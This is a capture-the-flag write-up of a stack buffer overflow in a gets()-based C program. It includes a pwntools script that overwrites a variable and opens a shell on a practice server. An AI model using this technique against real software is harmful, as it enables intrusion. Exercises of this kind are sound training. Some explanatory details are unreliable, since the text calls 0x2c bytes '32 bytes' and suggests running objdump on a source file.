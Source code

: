 
---

# **Challenge 3: Buffer Overflow**

### **Challenge Code**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key) {
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);  // Vulnerable function
    if (key == 0xcafebabe) {
        system("/bin/sh");
    } else {
        printf("Nah..\n");
    }
}

int main(int argc, char* argv[]) {
    func(0xdeadbeef);
    return 0;
}
```

---

### **Challenge Objective**
In this challenge, we will:
- Understand what a buffer overflow is.
- Exploit the `gets()` vulnerability to overwrite the `key` variable with the value `0xcafebabe`.
- When the condition `key == 0xcafebabe` is true, the program executes `system("/bin/sh")`, providing a shell to capture the flag.

---

### **Understanding Buffer Overflow**
A **buffer overflow** occurs when we input more data than a variable can hold, causing it to overwrite adjacent memory zones. Every variable in a program is assigned a specific memory zone, but if we can write beyond the boundaries of that memory, we can overwrite other variables, stack pointers, or return addresses.

In this case:
1. The `gets()` function does not perform bounds checking and allows input longer than `overflowme`’s allocated size of 32 bytes.
2. This overflow can overwrite the `key` variable, which is stored nearby in memory.

---

### **Plan to Exploit**
Our goal is to:
1. **Overflow the buffer** (`overflowme`) and write enough data to overwrite the memory where the `key` variable is stored.
2. **Set `key = 0xcafebabe`** by carefully crafting our payload.

---

### **Analyzing the Code**

#### **Vulnerable Function: `func()`**
1. **Overflow Variable:**
   - `overflowme` is a 32-byte buffer located at `ebp - 0x2c` (32 bytes below the base pointer).
   
2. **Key Variable:**
   - The `key` variable is passed as a parameter to `func()` and stored at `ebp + 0x8` (8 bytes above the base pointer).

3. **Critical Instructions:**
   - **`gets(overflowme)`**:
     - Reads user input directly into `overflowme` without size checks.
     - Input longer than 32 bytes will overwrite adjacent memory, including the `key` variable.
   - **Comparison**:
     - The program checks if the `key` variable is equal to `0xcafebabe`:
       ```assembly
       cmpl 0xcafebabe,0x8(%ebp)
       ```
     - If the condition is true, the program calls `system("/bin/sh")`.

---

### **Exploit Analysis**

To overwrite the `key` variable:
1. Fill the 32 bytes of `overflowme` to overflow the buffer.
2. Overwrite the 4 bytes of saved `ebp`.
3. Overwrite the 4 bytes of the return address (optional; not used in this challenge).
4. Write the value `0xcafebabe` to the memory location of `key` at `ebp + 0x8`.

#### **Memory Layout**
| Memory Address | Content               | Offset |
| -------------- | --------------------- | ------ |
| `ebp - 0x2c`   | Start of `overflowme` | +0     |
| `ebp`          | Saved base pointer    | +0x2c  |
| `ebp + 0x4`    | Return address        | +0x30  |
| `ebp + 0x8`    | `key` variable        | +0x34  |

To overwrite the `key` variable, we need:
- **32 bytes** to fill `overflowme`.
- **8 bytes** (saved `ebp` + return address).
- **4 bytes** to write `0xcafebabe` to `key`.
- ![couldn't load image](image.png)
---

### **Crafting the Payload**
Using the above analysis, the payload structure is:
1. **Padding for `overflowme`:**
   - 32 bytes (`'a' * 0x2c`).
2. **Padding for `ebp` and return address:**
   - 8 bytes (`'b' * 0x08`).
3. **Value for `key`:**
   - Write `0xcafebabe` in little-endian format (`\xbe\xba\xfe\xca`).

---

### **Python Exploit Script**

Here’s the Python script to exploit the challenge:

```python
from pwn import *

# Connect to the server
connection = remote("pwnable.kr", 9000)

# Construct the payload
overflow_payload = b'a' * 0x2c       # Fill 32 bytes of overflowme
overflow_payload += b'b' * 0x08      # Padding for saved ebp and return address
overflow_payload += p32(0xcafebabe)  # Overwrite key with 0xcafebabe (little-endian)

# Print the payload for verification
print("Payload:", overflow_payload)

# Send the payload to the server
connection.sendline(overflow_payload)

# Interact with the shell
connection.interactive()
```

---

### **Steps to Execute the Exploit**

1. **Analyze the Disassembly:**
   - Use `objdump -D bof.c` to confirm the memory layout and validate the `overflowme` and `key` locations.

2. **Run the Script:**
   ```bash
   python exploit.py
   ```

3. **Observe the Shell:**
   - If successful, the script overwrites `key` with `0xcafebabe`, triggering the shell:
     ```
     $ whoami
     $ ls
     ```
    ![alt text](image-1.png)
---

### **Key Learnings**

1. **Buffer Overflow Basics:**
   - Overwriting memory beyond the bounds of a buffer allows manipulation of other variables or control flow.

2. **Memory Layout Analysis:**
   - Understanding how variables are stored relative to the stack pointer and base pointer is crucial.

3. **Using Little-Endian Format:**
   - Most modern architectures store multi-byte values in little-endian order, so hex values must be reversed.

4. **Automating Exploits:**
   - Tools like `pwntools` simplify the creation and execution of payloads for CTF challenges.

---